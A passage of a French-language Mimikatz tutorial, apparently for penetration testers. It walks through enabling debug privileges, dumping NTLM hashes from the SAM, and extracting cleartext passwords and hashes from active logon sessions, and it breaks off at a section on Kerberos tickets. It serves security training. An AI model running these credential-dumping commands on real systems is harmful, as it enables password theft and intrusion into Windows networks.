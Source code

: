     ```cmd
    mimikatz
    ```
* **Explication** :
  * Lance l’interface de commande interactive de Mimikatz.

***

#### 2. Obtenir les Privilèges Nécessaires

*   **Commande** :

    ```cmd
    privilege::debug
    ```
* **Explication** :
  * Active les privilèges de débogage, nécessaires pour accéder à des données sensibles comme les hashes ou les mots de passe en mémoire.

***

#### 3. Extraire les Hashes NTLM

*   **Commande** :

    ```cmd
    lsadump::sam
    ```
* **Explication** :
  * Extrait les hashes des mots de passe des comptes stockés dans le **SAM (Security Accounts Manager)**.

> 💡 **Astuce** : Si vous utilisez un contrôleur de domaine, les comptes seront extraits depuis le fichier `NTDS.dit`.

***

#### 4. Extraire les Mots de Passe des Sessions Actives

*   **Commande** :

    ```cmd
    sekurlsa::logonpasswords
    ```
* **Explication** :
  * Liste les sessions utilisateur actives et affiche les mots de passe (en clair, si disponibles) ou leurs hashes.

***

### 🚀 Étape 3 : Gestion des Tickets Kerberos

***

#### 1. Liste des Tickets Kerberos en Mémoire
